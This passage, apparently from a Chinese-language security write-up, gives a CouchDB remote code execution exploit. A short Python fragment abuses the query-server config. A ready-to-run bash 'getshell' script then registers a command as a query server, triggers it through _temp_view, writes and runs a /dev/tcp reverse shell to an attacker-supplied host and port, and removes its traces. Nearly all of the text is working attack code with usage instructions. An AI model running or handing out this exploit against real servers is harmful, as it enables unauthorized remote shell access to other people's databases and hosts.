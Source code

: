 ```
if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')


```

2.2 bash自动化脚本

```
#!/bin/bash

echo CouchDB getshell - c0debreak - tools.changesec.com
echo

if [[ $# -ne 2 ]];then
    echo Usage: $0 http://xx.xx.xx.xx:5984 myserver:myport
    exit 1
else
    server=$1
    cb=${2/:/\/}
fi

function run() {
    cmd=$1

    curl -XPUT "$server/_config/query_servers/cmd" -d "\"$cmd\""
    curl -XPUT "$server/example"
    curl -XPUT "$server/example/record" -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl --max-time 1 "$server/example/_temp_view?limit=1" -d '{"language":"cmd", "map":""}' -H 'Content-Type: application/json'
}

run "echo '/bin/bash -i >& /dev/tcp/$cb 0>&1' > /tmp/shell"
run "bash /tmp/shell"
run "rm -f /tmp/shell"

curl -XDELETE "$server/_config/query_servers/cmd"

```

![](/assets/wsq11.png)
